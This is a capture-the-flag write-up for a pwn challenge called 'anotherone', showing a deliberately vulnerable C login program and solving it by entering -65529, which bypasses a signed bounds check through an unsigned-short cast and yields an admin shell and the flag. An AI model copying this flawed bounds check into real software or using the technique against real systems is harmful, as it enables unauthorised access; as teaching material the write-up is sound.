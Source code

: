 # AisecCTF

## anotherone

> It's important to see things from different perspectives.
>
>
> [`anotherone.c`](anotherone.c), [`anotherone`](anotherone)

Tags: _pwn_

## Solution
We provide to competitors this C code :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define USERNAME_LEN 6
#define NUM_USERS 8
char logins[NUM_USERS][USERNAME_LEN] = { "user0", "user1", "user2", "user3", "user4", "user5", "user6", "admin" };

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

int read_int_lower_than(int bound) {
    int x;
    scanf("%d", &x);
    if(x >= bound) {
        puts("Invalid input!");
        exit(1);
    }
    return x;
}

int main() {
    init();

    printf("Select user to log in as: ");
    unsigned short idx = read_int_lower_than(NUM_USERS - 1);
    printf("Logging in as %s\n", logins[idx]);
    if(strncmp(logins[idx], "admin", 5) == 0) {
        puts("Welcome admin.");
        system("/bin/sh");
    } else {
        system("/bin/date");
    }
}
```

The user is asked to enter a user index. The user index cannot exeed NUM_USERS-1 meaning we cannot login as admin. The index can be negative though. Since the index is casted to `unsigned short` we are able to enter larger values than NUM_USERS-1. We can just use `-65529` which is `-65536+7 === 7 mod 65536` (or really any other number that fits the equation).

```bash
─$ nc AisecCTF2024 {PORT}
Select user to log in as: -65529
Logging in as admin
Welcome admin.
ls
flag.txt
pwn
cat flag.txt
AisecCTF{Th1s_1S_E1sy_Buff3rOv3rfl0w}
```

